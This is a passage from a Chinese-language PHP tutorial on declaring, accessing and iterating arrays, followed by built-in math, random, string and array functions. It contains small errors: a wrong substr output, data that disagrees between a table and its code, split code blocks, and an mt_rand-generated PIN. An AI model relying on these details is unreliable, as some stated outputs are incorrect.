// Declaration of an array indexed with the array() function
$lastnames = array("Emma", "Alice", "Lina", "Sarah", "Thomas");
?>
```

在本示例中，我们定义了三种数组声明方式：

第一种声明：`$empty_array = []`；声明一个名为 `$empty_array` 的空索引数组。空方括号 `[]` 在 PHP 中用于创建新的空数组。

第二条语句：

$numbers = [10, 20, 30, 40, 50]; 声明并初始化一个名为 $numbers 的索引数组，其值为 [10, 20, 30, 40, 50]。值由逗号分隔，并包含在方括号 [ ] 中。

第三条语句：

$lastnames = array("Emma", "Alice", "Lina", "Sarah", "Thomas"); 使用 array() 函数声明一个名为 $lastnames 的索引数组。array() 函数通过在括号中指定参数值来创建数组。值由逗号分隔，并包含在圆括号 ( ) 中。

总之，这些索引数组声明展示了在 PHP 中创建和初始化索引数组的不同方式，无论是使用空括号 [] 还是 array() 函数。

## 访问索引数组的元素

要访问索引数组中的特定元素，请使用其对应的数值索引，从 0 开始。语法如下：

| 表名 | 索引 |
| :--- | :--- |
| $arrayName[0] | |
| $arrayName[1] | |

## 示例

| 表名 | 索引 |
| :--- | :--- |
| $number[0] | |
| $number[1] | |

在上面的示例中，如果你想访问 numbers 数组的元素，只需使用它们的索引，但请记住第一个元素的索引始终为 0：

```php
<?php

$numbers = [10, 20, 30, 40, 50];

echo $numbers[0]."<br>";
echo $numbers[1]."<br>";
echo $numbers[2]."<br>";
echo $numbers[3]."<br>";
echo $numbers[4]."<br>";
?>
```

如果你执行此代码，将得到以下结果：



## 向索引数组添加元素

要向索引数组添加新元素，只需将值赋给新索引即可。PHP 会自动处理正确的索引。以下是在前面示例中向 $numbers 和 $lastnames 数组添加新元素的示例：

```php
<?php
// Declaration and initialization of an array indexed with values
$numbers = [10, 20, 30, 40, 50];

// Declaration of an array indexed with the array() function
$lastnames = array("Emma", "Alice", "Lina", "Sarah", "Thomas");

$numbers[] = 60; // Add 60 to the end of the array
$lastnames[5] = "Eve"; // Add "Eve" to index 5 of array
?>
```

执行此代码后，数组 $numbers 和 $lastnames 变为：

$numbers = [10, 20, 30, 40, 50, 60]
$lastnames = ["Emma", "Alice", "Lina", "Sarah", "Thomas", "Eve"]

## 编辑和删除元素

要修改索引数组中现有元素，可以通过其索引访问该元素并为其赋予新值。要删除元素，可以使用 unset() 函数。

## 示例：

如果你想修改前面示例中的 $numbers 数组，将元素 20 替换为 100，只需添加以下代码行：


$numbers[1] = 100; // 要修改的元素索引为 1

如果要从 $lastname 数组中删除 "Sarah" 元素，只需使用 PHP 中预定义的 unset() 函数：

```
unset($lastnames[3]); // 删除第四个元素（Sarah）
```

## 浏览索引数组

要在 PHP 中浏览索引数组，可以使用多种流程控制结构，例如之前章节学过的 **for** 循环，或接下来介绍的 **foreach** 循环。

## for 循环

当你预先知道数组中元素的数量时，使用 for 循环。可以使用索引遍历数组的每个元素。要获取数组中元素的数量，PHP 提供了一个名为 **count()** 的函数，它返回作为参数传递的数组中的元素数量。

## 示例

```
<?php
$numbers = [10, 20, 30, 40, 50];
$length = count($numbers);
for ($i = 0; $i < $length; $i++) {
   echo $numbers[$i] . "<br>";
}
?>
```

在此示例中，我们有一个名为 $numbers 的索引数组，包含五个元素：10、20、30、40 和 50。count() 函数用于获取数组中元素的总数，并将其存储在 $length 变量中。

接下来，使用 for 循环通过索引遍历数组的每个元素。变量 $i 初始化为 0，只要 $i 的值小于 $length，循环便继续。在每次迭代中，使用 echo 显示索引为 $i 的数组元素的值，后跟一个 <br> 标签以在 HTML 渲染中创建换行。执行此代码将显示以下结果：


for 循环非常适合浏览此类数组，其用法完全合适。不过，我们将转向另一个专为数组设计的循环：foreach 循环。

## foreach 循环

当你想要遍历数组的每个元素，而无需预先知道数组的大小时，使用 foreach 循环。**foreach** 循环支持两种不同的语法，我们用来遍历索引数组的第一种语法是：

```
foreach ($stable as $value) {
// Block of code to execute
}
```

在此语法中，$value 变量在迭代期间直接包含 $stable 数组中每个元素的值。在这种形式的 foreach 循环中，无法访问元素的键。这种 foreach 循环语法允许你仅基于值遍历数组的元素，而无需检索与每个值关联的键。每次迭代循环时，$value 变量都包含数组中当前遍历元素的值。当只需要元素的值而无需担心关联的键时，这简化了遍历数组的过程。

## 示例

```
<?php
$numbers = [10, 20, 30, 40, 50];
foreach ($numbers as $number) {
echo $number . "<br>";
}
?>
```

此示例使用 **foreach** 循环遍历 $numbers 数组。在此循环中，$number（单数）表示 $numbers 数组在每次迭代中的每个元素。事实上，在每次迭代中，$number 变量都会采用数组中 **当前** 元素的值。因此，在每次循环迭代中，会显示 $number 的值，后跟一个 <br> 标签以换行。此循环非常方便，可用于浏览数组的所有元素，而无需像 for 循环那样显式管理索引。此代码的输出结果与使用 for 循环得到的结果完全相同。

## 关联数组

顾名思义，关联数组将键与值关联。与索引数组不同，在索引数组中，值可通过其数值位置访问；而在关联数组中，值可通过其关联的键访问。以下是在 PHP 中声明和初始化关联数组的方法：

## 声明空关联数组

声明空关联数组的方法与声明索引数组相同：

```
<?php

$empty_associative_array = [];

?>
```

在此示例中，我们使用 PHP 的数组语法声明并初始化一个空关联数组。变量 $empty_associative_array 被赋值为使用空双方括号的空关联数组，即不包含任何键值对的数组。

此声明创建了一个空关联数组，可用于在代码后续部分通过将键与值关联来存储数据。

## 声明并初始化带值的关联数组

关联数组的工作原理与索引数组相同，区别在于每个键关联的是一个不同的名称而非数字。让我们以下图中所示的数组为例。

如何在 PHP 中声明和初始化此数组？

| 键 | 值 |
| :--- | :--- |
| lastname | Dupont |
| firstname | Amine |
| age | 29 |
| gender | M |
| country | Canada |

用于声明和初始化 $person 关联数组的语法如下：

```
<?php
$person = [
    "last_name" => "Dupont",
    "first_name" => "Amine",
    "age" => 29,
    "gender" => "M",
    "country" => "France"
];
?>
```

在此示例中，我们使用 PHP 的关联数组语法初始化关联数组 $person。
此语法使用方括号 [ ] 来界定关联数组的开始和结束。在方括号内，数组的每个元素都是一个键值对，其中键后跟 => 符号，然后是与该键关联的值。键值对之间用逗号分隔。此语法允许你创建一个关联数组，其中每个键关联一个特定的值。

键 "last_name"、"first_name"、"age"、"gender" 和 "country" 分别使用 => 符号与其各自的值 "Dupont"、"Amine"、29、"M" 和 "France" 关联。此表存储了关于某人的信息，例如姓氏、名字、年龄、性别和国家。键用于访问表中的相应值。

## 使用 array() 函数声明关联数组

声明关联数组的第三种方法是使用 PHP 预定义的 array() 函数：

```
<?php

$grades = array(
"Maths" => 15,
"Physics" => 18,
"English_language" => 12
);
?>
```

在此示例中，我们使用 **array()** 函数初始化关联数组 $grades。此语法以 array() 关键字开头，后跟键值对列表。每对通过指定键、=> 符号和与该键关联的值来定义。键值对之间用逗号分隔。此语法允许你创建一个关联数组，其中每个键关联一个特定的值。

因此，$grades 数组包含三个元素："Maths" 关联分数 15、"Physics" 关联分数 18，以及 "English_language" 关联分数 12。键用于访问表中的相应值。

## 访问关联数组中的元素

要访问关联数组中的特定元素，我们使用方括号中的相应键。

例如，要访问 $person 关联数组中的 "first_name" 元素，我们使用 $person["first_name"]。

如果将以下代码行添加到脚本中，你将检索并显示名字："Amine"。

echo $person["first_name"]; //检索并显示名字：Amine

要访问 $grades 数组中的 Maths 分数，我们使用 $grades["Maths"]。

echo $grades["Maths"]; //检索并显示 Maths 成绩：15

## 向关联数组添加元素

我们可以通过将值赋给新键来向关联数组添加新元素。
例如，要向关联数组 $person 添加值为 "amine.dupont@example.com" 的 "email" 元素，我们使用：

$person["email"] = "amine.dupont@example.com";

要显示数组的所有元素，可以使用 PHP 中预定义的 **print_r()** 函数：

```
<?php
$person = [
"last_name" => "Dupont",
"first_name" => "Amine",
"age" => 29,
"gender" => "M",
"country" => "France"
];

$person["email"] = "amine.dupont@example.com";
echo "<pre>";
```


print_r($person);
echo "</pre>";
?>

在这段代码中，我们有一个名为 $person 的关联数组，包含五个键值对，分别表示一个人的不同信息：姓、名、年龄、性别和国家。接下来，使用语法 $person["email"] = "amine.dupont@example.com"; 向数组中添加了一个新的 "email" 键，其值为 "amine.dupont@example.com"。

**print_r()** 函数用于显示 $person 数组的内容。通过使用 HTML 标签 <pre> 和 </pre> 包装该函数，结果将在浏览器中以格式化、更易读的方式显示。

如下图所示，运行此代码的结果将显示 $person 数组的完整内容，包括新添加的 "email" 键，所有键值对均以可读格式显示。

```
Array
(
    [last_name] => Dupont
    [first_name] => Amine
    [age] => 29
    [gender] => M
    [country] => France
    [email] => amine.dupont@example.com
)
```

## 修改关联数组中的元素

要修改关联数组中元素的值，只需为相应的键重新赋予一个新值即可。

例如，要更改 $person 关联数组中该人的年龄，我们使用：

```
$person["age"] = 40;
```

执行这行代码后，$person 数组中 "age" 元素的值变为 40。

## 从关联数组中删除元素

要从关联数组中删除特定元素，我们使用 PHP 中预定义的 **unset()** 函数，并指定要删除的元素的键。

例如，要从 $person 关联数组中删除 "age" 元素，我们使用：

```
unset($person["age"]);
```

## 浏览关联数组

关联数组是一种数据结构，其中每个元素都与一个键相关联，而不是数值索引。这允许使用显式键而不是数值索引来访问值。

以下是浏览关联数组的一些方法：

### 使用 foreach 循环：

foreach 循环是浏览关联数组的一种特别有效的工具。它允许您轻松地遍历数组中的每个键值对。我们之前已经了解了它在索引数组中的用法。现在让我们探讨如何将此循环用于关联数组。以下是 foreach 循环的第二种语法：


在此语法中，我们有：

- $table：表示要浏览的数组。
- $key：表示数组中当前元素的键。
- $value：表示数组中当前元素的值。

foreach 循环遍历数组中的每个元素，将每个元素的键和值分别赋给变量 $key 和 $value。循环内部的指令针对数组中的每个元素执行。

### 示例：

```
<?php

$person = [
    "last_name" => "Dupont",
    "first_name" => "Amine",
    "age" => 29,
    "gender" => "M",
    "country" => "France"
];

foreach ($person as $key => $value) {
    echo "Key: $key, Value: $value <br>";
}

?>
```

在此示例中，我们有一个之前创建的名为 $person 的关联数组。

**foreach** 循环用于遍历 $person 数组。在每次循环迭代中，数组中每个元素的 **键** 和 **值** 分别存储在 **$key** 和 $value 变量中。

在 foreach 循环内部，我们使用 echo 函数显示数组中每个元素的键和值。

键使用 `$key` 变量显示，值使用 `$value` 变量显示。

因此，对于 `$person` 数组中的每个元素，此循环都会显示相应的键，后跟其值，两者之间用逗号分隔，最后跟一个换行符，以便在浏览器中更易读。

### 结果：


## 多维数组

与以线性方式存储简单数据（数字、字符串等）的简单数组不同，多维数组是一种复杂的数据结构，其中每个元素本身可以是一个数组。这些数组适用于表示表格数据、矩阵或其他需要多级组织的更复杂的数据结构。例如，下图所示的多维数组。此表显示了法国、加拿大、摩洛哥和西班牙的首都和人口。

| | 0 | 1 | 2 |
|---|---|---|---|
| 0 | 法国 | 巴黎 | 67 |
| 1 | 加拿大 | 渥太华 | 38 |
| 2 | 摩洛哥 | 拉巴特 | 40 |
| 3 | 西班牙 | 马德里 | 47 |

通过分析此多维表的结构，我们可以推断出它被结构化为一个国家列表，其中每个国家由一个包含三个元素的子表表示：国家名称、其首都和居民数量。

表中各元素的组织方式如下：

- 每个子表的第一个元素是国家名称。
- 第二个元素是国家的首都。
- 第三个元素是该国的居民数量。

这样一来，每个子表都代表一个带有其关联特征的国家，所有这些子表都被分组在一个主表中，从而形成完整的多维数组。在 PHP 中，有几种方法可以声明和初始化此数组。

### 方法 1：使用 array() 函数创建数组。

```
<?php
$info_country = array(
    array("France", "Paris", 67),
    array("Canada", "Ottawa", 38),
    array("Morocco", "Rabat", 40),
    array("Spain", "Madrid", 47)
);
?>
```

### 方法 2：使用括号表示法 [ ]。

```
<?php
$info_country = [
    ["France" , "Paris", 67],
    ["Canada", "Ottawa", 38],
    ["Morocco", "Rabat", 40],
    ["Spain", "Madrid", 47]
];
?>
```

这两种方法等效，产生相同的结果。它们都定义了一个包含四个子数组的多维数组，每个子数组代表一个带有其关联信息（名称、首都、居民数量）的国家。唯一的区别在于所使用的语法：第一种方法使用 array() 函数，而第二种方法使用 PHP 引入的带方括号表示法 [ ] 的缩写数组语法。

**主**表中的每个元素都是一个索引表，包含特定国家的信息，并表示上图表格中的一行。每个表的第一个元素代表国家名称，第二个元素代表首都，第三个元素代表居民数量。

为了可视化此表的结构化内容并更好地了解其布局，我们可以使用 **print_r()** 函数，并使用 HTML <pre> 标签将其包围：

```
<?php

$info_country = array(
  array("France", "Paris", 67),
  array("Canada", "Ottawa", 38),
  array("Morocco", "Rabat", 40),
  array("Spain", "Madrid", 47)
);
echo "<pre>";
print_r($info_country);
echo "</pre>";
?>
```

执行此代码后，显示的结果将类似于下图。此结果清晰地说明了多维数组的结构。主数组由第一个 "Array ( )" 表示，包含四个从 0 到 3 索引的子数组。这些子数组中的每一个都包含三个从 0 到 2 索引的元素。


## 访问多维数组的元素

以多维数组 $info_country 为例，要访问其元素，可以使用数值索引，然后访问其各个元素。例如，要访问法国的首都，可以使用以下语法：

```php
// Access to the capital of France
$capital_france = $info_country[0][1];
echo $capital_france; // Display "Paris".
```

例如，要访问摩洛哥的居民数量，可以使用以下语法：

```php
// Access to the number of inhabitants in Morocco
$capital_france = $info_country[2][2];
echo $capital_france; // Display 40
```


## 二维关联数组

在 $country 表示例中，行和列都使用索引，有时会导致元素指定的歧义。为了解决这个问题，我们可以不使用列的索引，而是使用键，以获得更好的可读性和对表格更直观的理解。

| | 国家 | 首都 | 居民数 |
|---|---|---|---|
| 0 | France | Paris | 67 |
| 1 | Canada | Ottawa | 38 |
| 2 | Morocco | Rabat | 40 |
| 3 | Spain | Madrid | 47 |

要在 PHP 中声明和初始化此数组，可以使用括号表示法 [] 或 array() 函数：

### 方法 1：

```php
$country_information = array(
array("country" => "France", "capital" => "Paris", "inhabitants" => 67),
array("country" => "Canada", "capital" => "Ottawa", "inhabitants" => 38),
array("country" => "Morocco", "capital" => "Rabat", "inhabitants" => 40),
array("country" => "Spain", "capital" => "Madrid", "inhabitants" => 47)
);
```

### 方法 2：

```php
$country_information = [
["country" => "France", "capital" => "Paris", "inhabitants" => 67],
["country" => "Canada", "capital" => "Ottawa", "inhabitants" => 38],
["country" => "Morocco", "capital" => "Rabat", "inhabitants" => 40],
["country" => "Spain", "capital" => "Madrid", "inhabitants" => 47]
];
```

两种方法，使用缩写语法 [...] 和 **array()** 函数，在结果上是等价的。它们都使用相同的数据创建多维数组。主要区别在于所使用的语法：

缩写语法 [...] 更加简洁现代，因其可读性更高而常被优先选用。array() 函数较旧且更啰嗦，但仍被广泛使用，在某些情况下可能是必要的，特别是在动态构建数组时。

简而言之，两种方法都有效，可以根据编码偏好和特定项目需求进行选择。

这两段代码各自定义了一个名为 $country_information 的多维数组。该数组的每个元素本身也是一个关联数组，包含特定国家的信息。每个子数组将一个键（country、capital、inhabitants）与相应的值（第一个子数组中为 France、Paris、67 等）关联起来。因此，$country_information 是关联数组的集合，每个关联数组代表特定国家的信息。

要访问这种多维数组的元素，我们使用数值索引访问高层数组级别，然后使用关联键访问内部元素。

例如，要访问第一个国家的首都，请使用：

```php
echo $country_information[0]["capital"]; // Displays "Paris".
```

同样，要访问第三个国家的居民数量：

```php
echo $country_information[2]["inhabitants"]; // Displays 40
```

## 遍历多维数组

在 PHP 中遍历多维数组时，我们通常使用 **foreach** 循环的组合。如前所述，多维数组由嵌套数组组成，每个数组级别都可以使用 foreach 循环单独遍历。

让我们以我们之前看到的 $country_information 表为例：

```php
<?php

$country_information = [
["country" => "France", "capital" => "Paris", "inhabitants" => 67],
["country" => "Canada", "capital" => "Ottawa", "inhabitants" => 38],
["country" => "Morocco", "capital" => "Rabat", "inhabitants" => 40],
["country" => "Spain", "capital" => "Madrid", "inhabitants" => 47]
];

foreach ($country_information as $country) {
foreach ($country as $key => $value) {
echo "$key: $value <br>";
}
echo "<br>";
}
?>
```

这个嵌套的 foreach 循环首先遍历 $country_information 数组的每个元素，然后在每次迭代中，遍历与当前国家关联的数组的每个内部元素（键-值）。"echo" 指令用于显示每个键:值对。如果运行此代码，将得到类似以下的结果：

```
country: France
capital: Paris
inhabitants: 67

country: Canada
capital: Ottawa
inhabitants: 38

country: Morocco
capital: Rabat
inhabitants: 40

country: Spain
capital: Madrid
inhabitants: 47
```

## 结论

在本章中，我们详细探讨了 PHP 中数组操作的各个方面，数组是编程中的基本数据结构。我们学习了如何声明和初始化数组、访问其元素、使用循环遍历它们，以及了解不同的数组类型，例如索引数组、关联数组和多维数组。

我们还研究了常见的表格操作，例如添加、修改和删除元素，以及在表格中组织和操作数据的最佳实践。

最后，我们探讨了高级数组功能，例如多维数组和关联数组，并学习了如何在 PHP 程序中有效地使用它们。

通过将这些知识与我们之前探讨的概念（例如函数和循环）相结合，我们现在对 PHP 中的数组操作有了扎实的理解，这将使我们能够创建健壮且动态的 PHP 应用程序。

## 练习

### 练习 15

编写一个 PHP 脚本，将一系列名称存储在数组中，然后以项目符号列表显示这些名称。

### 练习 16

编写一个 PHP 脚本，将三种颜色的名称存储在数组中，并按逆序显示它们。

### 练习 17

编写一个 PHP 脚本，将一系列名称存储在数组中，并按字母顺序显示它们。

### 练习 18

编写一个 PHP 脚本，创建一个水果名称和价格的关联数组，并使用 foreach 循环显示数组的每个元素。

### 练习 19

编写一个多维关联数组，其键为人名，值为包含该人名、城市和年龄的数值数组。然后使用此表为每个人显示一个句子，给出该人的姓、名和年龄。

### 练习 20：函数和数组 (foreach)

编写一个 PHP 函数，以一组数字数组作为输入，并返回所有这些数字的和。

### 练习 21：函数和数组 (foreach)

编写一个函数，以数字数组作为参数，并返回数组中所有偶数的和。

### 练习 22：函数和表格（求平均值）

编写一个函数，以数字数组作为参数，并返回数组中所有偶数的平均值。

### 练习 23：函数和表格（查找最大值）

编写一个函数，以数字数组作为参数，并返回数组中所有数字的最大值。

## 第 6 章

### PHP 内置函数

PHP 的内置函数，也称为预定义函数或原生函数，是默认包含在 PHP 语言中的函数。它们为常见的编程任务提供了大量现成的功能，例如数学运算、字符串操作、日期和时间处理、数组管理、文件访问等。无论您是在开发动态网站、复杂的 Web 应用程序还是任何其他 PHP 项目，这些内置函数都能让您以高效、简化的方式完成众多任务。

在本章中，我们将探讨 PHP 内置函数的一些类别，并发现如何使用它们来满足各种 Web 开发需求。我们将深入学习数学函数以执行复杂计算、字符串函数以操作和格式化文本、数组函数以管理数据集，以及日期和时间函数以精确管理时间。

本章将使您深入了解 PHP 内置函数提供的功能，并提供实际示例来说明它们在不同 Web 开发场景中的用法。准备好深入 PHP 内置函数的世界，发现它们如何简化和加速您的 Web 开发过程。

### 数学函数

PHP 的内置数学函数为执行常见数学运算提供了各种工具。从简单的计算到更高级的操作，PHP 提供了一整套函数来满足开发者的需求。在本节中，我们将探讨 PHP 中可用的一些最常用的数学函数。

### 基本函数

PHP 的基本函数为执行简单数学运算提供了基本工具。它们在 Web 开发中被广泛用于执行基本计算和操作数字。下表总结了一些最常用的基本函数：


| 函数 | 描述 | 示例 |
|---|---|---|
| abs() | 返回绝对值 | abs(-10) = 10 |
| sqrt() | 返回数字的平方根 | sqrt(25) = 5 |
| pow() | 返回数字的幂 | pow(2,3) = 8 |
| round() | 将数字四舍五入到最接近的小数位 | round(3.7) = 4 |

- **abs()**: 该函数返回数字的绝对值，即不带符号的值。例如：

```
$number = -10;

$absolute_value = abs($number); // $absolute_value is 10
```

- **sqrt()**: sqrt() 函数返回数字的平方根。例如：

```
$number = 25;

$square_root = sqrt($number); // square_root is 5
```

- **pow()**: 该函数返回一个数字提升到另一个数字幂次的值。例如：

```php
$number = 2;
$power = 3;
$result = pow($number, $power); // $result is 8 (2^3)
```

- **round()**: round() 函数根据指定精度将数字四舍五入到最接近的小数位。示例如下：

```php
<?php
$number1 = 3.7;
$arrondi_number1 = round($number1); // $arrondi is 4

$number2 = 12.146345;
$arrondi_number2 = round($number2, 2); // round $number2 to 2 decimal places, result is 12.15

echo $arrondi_number1;
echo "<br>";
echo $arrondi_number2;
?>
```

这些基本函数在许多需要对数字进行简单运算的编程场景中非常有用。它们为在 PHP 中执行基本数学计算提供了灵活性和易用性。


## 三角函数

在 PHP 中，集成了三角函数，以便开发者能够高效、准确地执行三角计算。下表概述了其中一些函数。

| 函数 | 描述 | 示例 |
|---|---|---|
| sin() | 返回以弧度表示的角度的正弦值 | sin(0.5) 返回 0.479（0.5 弧度的正弦） |
| cos() | 返回以弧度表示的角度的余弦值 | cos(1) 返回 0.540（1 弧度的余弦） |
| tan() | 返回以弧度表示的角度的正切值 | tan(0.8) 返回 1.029（0.8 弧度的正切） |
| asin() | 返回数字的反正弦值 | asin(0.5) 返回 0.523（0.5 的反正弦） |
| acos() | 返回数字的反余弦值 | acos(0.5) 返回 1.047（0.5 的反余弦） |
| atan() | 返回数字的反正切值 | atan(1) 返回 0.785（1 的反正切） |

## 随机函数

PHP 的随机函数可用于生成随机数并在应用程序中执行随机操作。它们广泛用于游戏、模拟、随机数据生成等领域。以下是 PHP 中一些最常用的随机函数：

### 随机数生成

- **rand($min, $max)**: 该函数在 $min 和 $max 值之间生成一个随机数。返回的值是整数。

### 示例：

```php
<?php
$random_number = rand(1, 100);
echo "Random number between 1 and 100: $random_number";
?>
```

每次运行此代码，您都会得到 1 到 100 之间的随机数。

- **mt_rand($min, $max)**: 与 rand() 类似，但使用 **Mersenne Twister** 随机数生成器，以其更好的随机数分布而闻名。

### 示例：

```php
<?php
$random_number = mt_rand(1000, 9999);
echo "Random 4-digit PIN code: $random_number";
?>
```

## 字符串函数

PHP 中的字符串函数提供了各种工具，可用于高效地操作和处理字符串。以下是此类别中一些最常用的函数：

**strlen()**: 该函数返回字符串的长度。

### 示例：

```php
<?php
$text = "Hello";
$length = strlen($text); // $length is 5
echo $length;
?>
```

### 结果


strpos(): 该函数返回子字符串在字符串中首次出现的位置。

### 示例：

```
$text = "Good morning";
$position = strpos($text, "mor"); // $position is 5
```

在此示例中，我们有一个包含值 "Good morning" 的字符串 "$text"。使用 "strpos()" 函数来查找子字符串 "mor" 在字符串 "$text" 中首次出现的位置。由于 "mor" 在 "Good morning" 中从第五个位置开始，因此 "strpos()" 函数返回值 5，即子字符串 "mor" 在字符串 "$text" 中的起始位置。请注意，位置索引从零开始。字母 "G" 的索引为 0，字母 "o" 的索引为 1，第二个字母 "o" 的索引为 2，字母 "d" 的索引为 3，空格的索引为 4，字母 "m" 的索引为 5。

### substr():

该函数从指定位置和长度返回给定字符串的子字符串。

### 示例：

```php
<?php
$text = "Hello everyone";
$substring = substr($text, 3, 10); // $substring is "lo everyone".
echo $substring;
?>
```

在此示例中，我们有一个包含值 "Hello everyone" 的字符串 "$text"。使用 "substr()" 函数从 "$text" 提取子字符串。函数的参数如下：第一个参数是原始字符串（"$text"），第二个参数是提取的起始位置（在我们的例子中是 3，即从字符串 $text 的第四个字符开始，因为索引从零开始），第三个参数是要提取的子字符串的长度（在我们的例子中是 10 个字符）。因此，"substr()" 函数从 "$text" 的第三个位置开始提取长度为十个字符的子字符串，得到 "lo everyone"。空格也是需要考虑的字符。

### 结果


strtoupper() 和 strtolower(): 这些函数分别将字符串转换为 **大写** 或 **小写**。

### 示例：

```php
<?php
$text = "Hello everyone";
$upper_text = strtoupper($text); // $upper_text is "HELLO EVERYONE".

$lower_text = strtolower($text); // $lower_text is "hello everyone".

echo $upper_text;
echo "<br>";
echo $lower_text;
?>
```


### str_replace():

该函数将字符串中子字符串的所有出现替换为另一个字符串。

### 示例：

```php
<?php
$text = "Hello everyone";
$new_text = str_replace("everyone", "friends", $text);
echo $new_text;
?>
```

在此代码中，str_replace() 函数将字符串 $text 中的字符串 "everyone" 替换为字符串 "friends"。如果运行此代码，您将得到以下结果：


简而言之，这些只是 PHP 中用于高效、灵活地操作字符串的众多函数中的几个示例。

## 数组函数

数组操作是 PHP 中的常见任务，语言提供的内置函数使其变得容易得多。以下是一些用于处理数组的最常用函数：

| 函数 | 含义 |
|---|---|
| count() | 计算数组中的元素个数 |
| sort() | 将数组按升序排序 |
| rsort() | 将数组按降序排序 |
| array_push() | 将一个或多个元素添加到数组末尾 |

| 函数 | 描述 |
|---|---|
| `array_unshift()` | 将一个或多个元素添加到数组开头 |
| `array_pop()` | 删除数组的最后一个元素 |
| `array_shift()` | 删除数组的第一个元素 |
| `array_slice()` | 提取数组的一部分 |
| `array_merge()` | 合并一个或多个数组 |
| `array_key_exists()` | 检查键是否存在于数组中 |
| `in_array()` | 检查给定值是否存在于数组中 |
| `array_search()` | 在数组中搜索给定值并返回相应的键 |
| `array_replace()` | 将数组的元素替换为一个或多个其他数组中的元素 |

- **sort()** 函数：按值对数组进行升序排序。它直接就地修改数组，并返回一个布尔值以指示操作是否成功。示例如下：

```php
<?php
$fruits = ["orange", "apple", "banana", "strawberry"];
sort($fruits);
?>
```


echo "<pre>";
print_r($fruits);
echo "</pre>";
?>

在这个示例中，`$fruits` 数组按升序排列，结果为：

```
Array
(
    [0] => apple
    [1] => banana
    [2] => orange
    [3] => strawberry
)
```

- **array_push()** 函数用于在数组末尾添加一个或多个元素。它直接就地修改数组，并返回数组中元素的新数量。示例如下：

```php
<?php

$fruits = ["orange", "apple", "banana", "strawberry"];
array_push($fruits, "Pineapple", "kiwi");

echo "<pre>";
print_r($fruits);
echo "</pre>";

?>
```

在这个示例中，元素 "Pineapple" 和 "kiwi" 被追加到数组 `$fruits` 的末尾，结果为：

`array_pop()` 函数删除数组的最后一个元素并返回该元素。它直接修改当前数组。示例如下：

```php
<?php
$fruits = ["orange", "apple", "banana", "strawberry"];
$last_fruit = array_pop($fruits);
echo "The last fruit was: ". $last_fruit ."<br>";
echo "<pre>";
print_r($fruits);
echo "</pre>";
?>
```

在这个示例中，**array_pop()** 函数删除 `$fruits` 数组的最后一个元素（即 "strawberry"）。变量 `$last_fruit` 现在包含值 "strawberry"，数组 `$fruits` 修改如下：


- **array_slice()** 函数根据指定参数返回给定数组的一部分。它不修改原始数组，而是返回包含所选元素的新数组。

以下是 array_slice() 函数的一般语法：

```php
array_slice($array, $start, $length = null, $preserve_keys = false)
```

- `$array`: 要从中提取一部分的原始数组。
- `$start`: 开始提取元素的索引。
- `$length`: 要提取的元素数量。如果省略此参数，则将包含从 `$start` 开始的所有元素。
- `$preserve_keys`: 一个布尔值，指示结果数组中是否应保留关联键。默认情况下，键将从零重新索引。

以下是使用 array_slice() 的示例：

```php
<?php
$fruits = ["apple", "banana", "orange", "strawberry", "pineapple"];
$portion = array_slice($fruits, 1, 3);

echo "<pre>";
print_r($portion);
echo "</pre>";
?>
```

此示例从索引 1（第二个元素 "banana"）开始提取 `$fruits` 数组的一部分，并包含接下来的三个元素。生成的数组 `$portion` 将包含元素 "banana"、"orange" 和 "strawberry"。请注意，原始 `$fruits` 数组未被修改。请注意，如果不指定要提取的元素数量，将提取从 `$start` 开始的所有元素。

```
Array
(
    [0] => banana
    [1] => orange
    [2] => strawberry
)
```

- **array_merge()** 函数用于将两个或多个数组合并为一个数组。它会考虑作为参数给出的数组，并返回一个包含源数组所有元素的新数组。

以下是 array_merge() 函数的一般语法：

| 函数 | 要合并的数组 | 输出类型 |
| --- | --- | --- |
| array_merge | $tab1, $tab2, ...$tabn | array |

**tab1, $tab2, ... $tabn**: 要合并的数组。您可以提供用逗号分隔的多个数组。

以下是使用 array_merge() 的示例：

```php
<?php
$tab1 = ["a" => "apple", "b" => "banana"];
$tab2 = ["c" => "orange", "d" => "strawberry"];
$tab3 = ["e" => "ananas"];

$result = array_merge($tab1, $tab2, $tab3);
echo "<pre>";
print_r($result);
echo "</pre>";
?>
```

在这个示例中，**array_merge()** 函数将数组 `$tab1`、`$tab2` 和 `$tab3` 合并为一个数组 `$result`。合并后的数组将包含源数组的所有元素；如果键是唯一的，则保留键，否则键将从零重新索引。执行此代码将产生以下结果：

```
Array
(
    [a] => apple
    [b] => banana
    [c] => orange
    [d] => strawberry
    [e] => ananas
)
```

- `array_key_exists()` 函数用于检查给定数组中是否存在特定键。如果键存在，则返回 true；否则返回 false。

array_key_exists() 函数的语法如下：

`array_key_exists($key, array $tab): bool`

key：要在表格中搜索的键。

$tab：要在其中搜索键的表格。

以下是使用 array_key_exists() 的示例：

```php
<?php

$person = [
    "lastname" => "Dupont",
    "firstname" => "John",
    "age" => 30
];

if (array_key_exists("firstname", $person)) {
    echo "The key 'firstname' exists in the array person.";
} else {
    echo "The key 'firstname' does not exist in the array person.";
}
?>
```

在这个示例中，array_key_exists() 函数检查键 "firstname" 是否存在于 `$person` 数组中。由于数组中存在键 "firstname"，条件为 true，因此将显示消息 "The key 'firstname' exists in the array person."。

- `array_replace()` 函数用一个或多个其他数组的元素替换数组的元素。它将第一个数组中现有的键值替换为替换数组中对应的值，并添加不存在的键。

array_replace() 函数的语法如下：


$tab1：要替换其元素的数组。

$tab2, $Other_arrays：替换数组。您可以指定所需数量的数组。

该函数返回一个包含更新元素的新数组。

以下是使用 array_replace() 的示例：

```php
<?php
$array1 = ["a" => "red", "b" => "green", "c" => "blue"];
